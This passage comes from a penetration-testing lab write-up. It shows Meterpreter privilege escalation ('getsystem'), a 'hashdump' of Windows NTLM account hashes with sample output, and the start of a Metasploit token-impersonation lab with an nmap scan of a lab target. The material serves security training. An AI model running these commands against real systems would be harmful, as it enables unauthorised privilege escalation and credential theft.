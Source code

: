 - Now the **`getsystem`** command should work

```bash
getsystem
```

![](.gitbook/assets/image-20230419201434045.png)

### Hashes Dump

```bash
hashdump
```

```bash
admin:1012:aad3b435b51404eeaad3b435b51404ee:4d6583ed4cef81c2f2ac3c88fc5f3da6:::
Administrator:500:aad3b435b51404eeaad3b435b51404ee:f168d9f8e6c5b893b8c4dfa202228235:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```



<details><summary>Reveal Flag - Administrator NTLM Hash is: 🚩</summary></details>



------

## Lab 3 - Token Impersonation

> 🔬 [Privilege Escalation: Impersonate](https://attackdefense.com/challengedetails?cid=2353)
>
> - Target IP: `10.2.16.163`
> - Check the [🔬Access Token lab here](../1-system-attack/windows-attacks/accesstoken.md) that already covered the Incognito tool
>
> - Metasploit **Token Impersonation with Incognito** inbuilt Meterpreter module
> - [Access Token Impersonation - Description](../1-system-attack/windows-attacks.md#access-token-impersonation)

```bash
service postgresql start && msfconsole -q
```

```bash
db_status
setg RHOSTS 10.2.16.163
setg RHOST 10.2.16.163
workspace -a Impersonate
db_nmap -sV 10.2.16.163
```

```bash
80/tcp   open  http          HttpFileServer httpd 2.3
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
```
